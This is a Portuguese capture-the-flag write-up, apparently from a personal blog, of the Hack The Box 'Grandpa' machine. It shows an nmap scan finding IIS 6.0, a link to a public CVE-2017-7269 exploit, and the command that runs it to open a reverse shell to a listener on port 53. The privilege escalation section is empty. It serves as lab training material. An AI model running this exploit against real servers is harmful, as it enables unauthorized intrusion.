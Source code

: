 ```yaml
---
title:     "Hack The Box - Grandpa"
tags: [windows,easy]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/1.jpg)

## Discovery

Iniciamos entao nossa enumeracao usando o nmap

```
┌─[✗]─[htb-an4kein☺parrot]─[/htb/grandpa]
└──╼ $sudo nmap -Pn -p- -sV -oN nmap/allports_tcp 10.10.10.14
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-25 18:43 UTC
Stats: 0:01:48 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 95.31% done; ETC: 18:45 (0:00:05 remaining)
Nmap scan report for 10.10.10.14
Host is up (0.072s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Percebemos que existe apenas a porta 80 aberta, rodando uma servidor WEB na versao bem velha 

## Exploitation
Lembro que na maquina [Granny](https://an4kein.github.io/hackthebox/2020/06/24/HTB-Granny/)  explorei uma versao identica, logo vou testar o exploit usado nela pra tentar obter exito.. 

***preference*** https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

Entao, executamos o exploit apos configurar nossa porta de preferencia para ficar escultando, eu escolhi a 53

`sudo python iis6-cve-2017-7269.py 10.10.10.14 80 10.10.14.36 53`

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/2.jpg)


## Privilege Escalation
